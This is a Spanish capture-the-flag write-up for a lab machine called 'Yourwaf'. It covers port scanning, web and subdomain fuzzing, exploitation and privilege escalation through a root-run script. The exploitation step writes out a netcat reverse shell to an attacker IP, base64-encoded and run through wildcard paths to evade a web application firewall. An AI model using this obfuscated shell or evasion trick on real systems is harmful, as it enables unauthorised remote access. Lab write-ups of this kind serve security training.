

# Máquina Yourwaf

### Reconocimiento de la Ip de la máquina víctima

### Puertos abiertos

sudo nmap -sS --disable-arp-ping --min-rate 6000 -p- --open -vvv -Pn 192.168.5.141

### Servicios y versiones 

sudo nmap -sVC --min-rate 6000 -p22,80,3000 -vvv -Pn 192.168.5.141

### Fuzing web

feroxbuster --url http://192.168.5.141 -w /usr/share/seclists/Discovery/Web-Content/big.txt

lo agregamos al /etc/hosts

buscamos subdominios:

ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://192.168.5.141 -H "Host: FUZZ.yourwaf.nyx" -H "User-Agent: Netscape" -fs 0

agregamos el subdomino al /etc/hosts

### Explotación

Aplicamos una bash con en base64 con caracteres comodín para luego pasarla a texto plano

nc -e /bin/bash 192.168.5.131 443 -> en base64 -> bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNS4xMzEgNDQz

/???/e??o bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNS4xMzEgNDQz | base64 -d | /???/b??h -e

nos ponemos en escucha con netcat por el puerto 443:

utilizando linpeas.sh

analizando el archivo server.js

podemos apuntar a ver archivos sensibles

entonces veo los usuario que se pueden loguear en el sistema:

quise ver el id_rsa de root pero no se puedo, ahora pruebo con tester

crackeamos el passphrase

me conecté por ssh:

### Escalar privilegios

Ejecutando la herramienta pspy64

vi los permisos de copylogs.sh

entonces vi a que grupo pertenezco:

entonces como pertezco al grupo copylogs puedo agregar una línea para que se ejecute como root

me puse en escucha con netcat y listo:

### user.txt

### root.txt

